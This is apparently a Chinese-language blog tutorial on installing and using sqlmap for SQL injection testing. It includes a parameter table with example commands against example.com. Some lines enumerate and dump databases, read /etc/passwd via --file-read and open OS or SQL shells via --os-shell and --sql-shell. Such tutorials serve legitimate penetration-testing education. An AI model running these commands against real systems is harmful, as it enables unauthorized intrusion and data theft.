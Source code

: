 ```yaml
---
title: SQLmap使用教程
date: 2025-05-27 12:48:01
permalink: /pages/sqlmap/
categories:
  - SQL注入
tags:
  - web
author: 
  name: the0n3
  link: https://the0n3.top
---
```


## 关于sqlmap

sqlmap 是一款开源渗透测试工具，可以自动检测和利用 SQL 注入漏洞，并接管数据库服务器。

SQLmap官方文档[SQLmap wiki](https://github.com/sqlmapproject/sqlmap/wiki/usage)

## sqlmap安装

kali自带了sqlmap，直接在终端输入`sqlmap`即可使用。

windows可以直接下载[sqlmap](https://github.com/sqlmapproject/sqlmap/archive/refs/tags/1.9.zip)，解压后在终端进入sqlmap目录，输入`python sqlmap.py`，需要python环境。

## sqlmap常用参数


| sqlmap参数 | 作用 | 用法 |
| --------- | ---- | ---- |
| -h | 帮助信息 | sqlmap -h |
| -u | 指定目标URL | sqlmap -u "http://example.com/page.php?id=1" |
| -r | 从文件中读取HTTP请求 | sqlmap -r "request.txt" |
| -d | 直接连接数据库（低版本mysql） | sqlmap -d "mysql://user:pass@ip/database" |
| -D | 指定数据库名 | sqlmap -u "http://example.com/?id=1" -D dbname |
| -T | 指定表名 | sqlmap -u "http://example.com/?id=1" -D dbname -T tablename |
| -C | 指定列名 | sqlmap -u "http://example.com/?id=1" -D dbname -T tablename -C columnname |
| -p | 指定测试参数 | sqlmap -u "http://example.com/?id=1&page=2" -p id |
| -v | 设置详细级别(0-6) | sqlmap -u "http://example.com/?id=1" -v 3 |
| --dbms | 指定数据库类型 | sqlmap -u "http://example.com/?id=1" --dbms=mysql |
| --dbs | 枚举所有数据库 | sqlmap -u "http://example.com/?id=1" --dbs |
| --current-db | 获取当前数据库名 | sqlmap -u "http://example.com/?id=1" --current-db |
| --tables | 枚举数据库中的表 | sqlmap -u "http://example.com/?id=1" -D dbname --tables |
| --columns | 枚举表中的列 | sqlmap -u "http://example.com/?id=1" -D dbname -T tablename --columns |
| --dump | 导出表中数据 | sqlmap -u "http://example.com/?id=1" -D dbname -T tablename --dump |
| --cookie | 指定cookie值 | sqlmap -u "http://example.com/" --cookie="PHPSESSID=value" |
| --data | POST数据 | sqlmap -u "http://example.com/login.php" --data="user=admin&pass=admin" |
| --level | 设置检测级别(1-5) | sqlmap -u "http://example.com/?id=1" --level=3 |
| --risk | 设置风险级别(1-3) | sqlmap -u "http://example.com/?id=1" --risk=2 |
| --batch | 自动化探测，交互过程使用默认参数 | sqlmap -u "http://example.com/?id=1" --batch |
|--flush-session | 刷新会话数据 | sqlmap -u "http://example.com/?id=1" --flush-session |
| --random-agent | 随机User-Agent | sqlmap -u "http://example.com/?id=1" --random-agent |
| --technique | 指定SQL注入技术 | sqlmap -u "http://example.com/?id=1" --technique=BEU |
| --hex | 使用十六进制编码 | sqlmap -u "http://example.com/?id=1" --hex |
| --file-read | 	读取服务器文件 | sqlmap -u "http://example.com/?id=1" --file-read=/etc/passwd |
| --os-shell | 获取交互式系统shell | sqlmap -u "http://example.com/?id=1" --os-shell |
| --sql-shell | 获取交互式SQL shell | sqlmap -u "http://example.com/?id=1" --sql-shell |
| --time-sec | 设置延时注入时间 | sqlmap -u "http://example.com/?id=1" --technique=T --time-sec=10 |

